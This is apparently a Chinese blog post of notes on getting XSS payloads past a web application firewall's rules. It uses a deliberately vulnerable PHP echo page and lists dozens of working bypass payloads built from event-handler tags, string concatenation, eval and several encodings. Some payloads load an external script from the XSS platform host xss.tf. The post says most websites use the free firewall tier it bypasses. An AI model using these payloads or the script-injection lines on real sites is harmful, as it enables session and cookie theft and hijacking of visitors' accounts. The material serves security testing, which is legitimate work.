   最近在学习xss方面的知识，涉及到waf的测试，在这里做个记录，方面查阅。

  ## 0x00 搭建环境
  - - -
  本地搭建测试waf测试，xss相关防护规则全部开启。
  
 ![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1sv90art7j30l10c0myc.jpg)
 
  ## 0x01 Self-Xss绕过
  - - -

  测试脚本
  ```php
  <?php   
    $input = @$_REQUEST["xss"];
    echo "<div>".$input."</div>"
  ?>
  ```
  
  首先思路就是一些被waf**遗漏的标签**，暂时不考虑**编码**或者**拼接字符串**这类思路，我们直接拿来测试。   

  `<video src=1 onerror=alert(/xss/)>`绕过。
  
  ![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv4ytym1j30uj08lq3m.jpg)
  
  类似的标签还有`<audio src=x onerror=alert(/xss/)>`
  
  ![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv87ifeuj30uj0933z8.jpg)
  
  除此之外以下几个`payload`都可以绕过。
  ```javascript
  <body/onfocus=alert(/xss/)>
  <details open ontoggle=alert(/xss/)>
  <button onfocus=alert(/xss/) autofocus>
  
  ```
  利用**伪协议**
  
  waf拦截
  
  ![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvkcpm4uj30uj08174y.jpg)
  
  加上一个**xmlns属性**即可绕过
  
  ![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvojz1hmj30uj08kdgj.jpg)
  
  实际上，我测试的waf是免费使用的，所以有些厂商可以象征性的取一些样本，拦截一下常见的标签，如果你购买了厂商的高级服务，那我们绕过就有难度，然而大多数网站还是使用免费版的多。
  
  ## 拼接字符类
  - - -
  拼接字符串的话，一般把关键字拆分成几个字符串，再拼接执行，结合**top**,**concat**之类的。
  
  ### top对象
  - - -
  
  top输出字符
  
  ![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uep4k2whj30ao097dfs.jpg)
  
  或者打印cookie
  
  ![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueqqxro8j30f0091aa3.jpg)
  
  top可以连接`对象`以及`属性`或`函数`，那么我们可以做到很多，例如:
  
  直接top连接一个alert函数
  
  ![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uewncru3j30x60duwem.jpg)
  
  `<details open ontoggle=top.alert(1)>`也可以绕过waf
  
  ![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueypy79kj30uj093t9h.jpg)
  
  `top['alert'](1)`也可弹窗，但waf拦截
  
  ![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufadg61cj30uj06vt95.jpg)
  
  绕过的话，很简单用`prompt`方法或者`confirm`都可以
  
  `<details open ontoggle=top['prompt'](1)>`
  
  ![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufd5cic3j30uj08yaau.jpg)
  
  如果我说一定要用`alert`的话就要用到`接字符串`了。
  
  `<details open ontoggle=top['al'%2b'ert'](1)>` %2b为url编码的+
  
  ![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufh1i5dkj30uj08jt9g.jpg)
  
  eval函数执行
  
  `<details open ontoggle=top.eval('ale'%2B'rt(1)') >`
  
  ![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug4njpphj30uj090aau.jpg)
  
  eval直接用也可以弹
  
  `<details open ontoggle=eval('alert(1)') >`
  
  ![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug8l4j2ej30uj08vjs5.jpg)

  这里为什么说到eval呢？因为如果eavl不拦截的话，我们可以测试各种编码，当然这是在牺牲长度的前提下。
  
  例如： `Unicode编码`
  
  `<details open ontoggle=eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029') >`
  
  ![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ugbw6c1gj30uj08ujs6.jpg)
  
  其他：
  ```html
  Base64编码：
  <details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
  eval拦截的话，可以试试，把 e Unicode编码
  <details open ontoggle=\u0065val(atob('YWxlcnQoMSk=')) >
  url编码：  
  <details open ontoggle=%65%76%61%6c(atob('YWxlcnQoMSk=')) >
  url编码： 
  <details open ontoggle=eval('%61%6c%65%72%74%28%31%29') >
  JS8编码：
  <details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
  Ascii码绕过：
  <details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  其他自测
  
  ```
  引用外部url，运用基于DOM的方法创建和插入节点把外部JS文件注入到网页。
  ```html
  <details open ontoggle=eval("appendChild(createElement('script')).src='http://xss.tf/eeW'") >
  ```
 ![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uh5hp1a8j30uj0b1jsy.jpg)
  
  url编码
  ```html
  <details open ontoggle=eval(%61%70%70%65%6e%64%43%68%69%6c%64%28%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%78%73%73%2e%74%66%2f%65%65%57%27) >
  ```
  ![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uhaxb0t2j30uj09uwg1.jpg)
  
  ### window对象
  - - -
  
  window和top类似，比如：
  `<img src=x onerror=window.alert(1) >`
  
  拼接一样的
  `<img src=x onerror=window['al'%2B'ert'](1) >`
  
  其他操作，参照上一章。
  
  
  通过赋值，也是我们常见的，看个例子：
  ```html
  <img src=x onerror=_=alert,_(/xss/) >
  <img src=x onerror=_=alert;_(/xss/) >
  <img src=x onerror=_=alert;x=1;_(/xss/) >
  ```
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3d5hdwmj30uj09m3za.jpg)
  
  短一点的`<body/onfocus=_=alert,_(123)>`
  
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3l03yfxj30uj097mxw.jpg)
  
  函数赋值，也比较常见
  ```
  <body/onfocus="a=alert,a`/xss/`">
  
  ```
  
  ### concat()
  - - -
  
  `concat方法`在实际应用中，不仅仅可以用于连接两个或多个数组，还可以合并两个或者多个字符串。
  
  ![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v96uzg3zj30el07a3yk.jpg)
  
  例如： 
  `<iframe onload=location='javascript:alert(1)'>`拦截
  
  ![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v9q2svh3j30uj06tq3d.jpg)
  
  使用concat来拼接字符串`javascript:alert(1)`
  
  ```html
  <iframe onload=location='javascri'.concat('pt:aler','t(1)')>
  ```
  
  ![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v9hzwbnbj30uj09gmxy.jpg)
  
  假设concat没被过滤，可以用来干扰waf判断
  
  ```html
  <iframe onload=s=createElement('script');body.appendChild(s);s.src='http://x'.concat('ss.tf/','eeW'); >
  ```
  
  ![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1va0g7u73j30uj0ai0u2.jpg)
  
  
  如果concat被拦截，可以尝试编码
  
  ```html
  <iframe onload=s=createElement('script');body.appendChild(s);s.src='http://x'.\u0063oncat('ss.tf/','eeW'); >
  ```
  
  ### join()
  - - -
  join函数将数组转换成字符串
  
  ![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1vbb5zfrdj30ck05t3yh.jpg)
  
  那么我们可以将一些关键字作为数组，再用join连接，转化成字符串。
  
  ```html
  <iframe onload=location=['javascript:alert(1)'].join('')>
  <iframe onload=location=['java','script:','alert(1)'].join('')>
  ```
  
  ![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1vbelprdpj30uj09gaav.jpg)
  
